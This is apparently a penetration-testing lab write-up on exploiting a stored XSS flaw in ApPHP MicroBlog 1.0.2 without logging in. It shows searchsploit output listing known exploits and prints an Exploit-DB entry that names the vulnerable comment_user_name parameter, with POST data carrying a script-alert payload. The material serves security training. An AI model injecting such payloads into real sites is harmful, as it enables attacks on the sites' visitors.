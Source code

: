 #### Lab Environment

**ApPHP MicroBlog**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be used to attack other users. Stored Cross Site Scripting could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a stored XSS attack on it</u>.

<u>A version of ApPHP MicroBlog is vulnerable to a stored XSS attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`searchsploit 'apphp'`:
```
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities                      | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Execution                      | php/webapps/33070.py
ApPHP MicroBlog 1.0.2 - Cross-Site Request Forgery (Add New Author)   | php/webapps/40506.html
ApPHP MicroBlog 1.0.2 - Persistent Cross-Site Scripting               | php/webapps/40505.txt
ApPHP MicroCMS 3.9.5 - Cross-Site Request Forgery (Add Admin)         | php/webapps/40517.html
ApPHP MicroCMS 3.9.5 - Persistent Cross-Site Scripting                | php/webapps/40516.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/40505.txt ./`

`cat ./40505.txt`:
```
# Exploit Title :              ApPHP MicroBlog 1.0.2  - Stored Cross
Site Scripting📌
# Author :                      Besim
# Google Dork :
# Date :                         12/10/2016
# Type :                         webapps
# Platform :                    PHP
# Vendor Homepage :   -
# Software link :            http://www.scriptdungeon.com/jump.php?ScriptID=9162

Description :

Vulnerable link : http://site_name/path/index.php?page=posts&post_id=📌

Stored XSS Payload ( Comments ): *

# Vulnerable URL :
http://site_name/path/index.php?page=posts&post_id= - Post comment section📌
# Vuln. Parameter : comment_user_name📌

############  POST DATA ############

task=publish_comment&article_id=69&user_id=&comment_user_name=<script>alert(7);</script>&comment_user_email=besimweptest@yopmail.com&comment_text=Besim&captcha_code=DKF8&btnSubmitPC=Publish
your comment

############ ######################
```
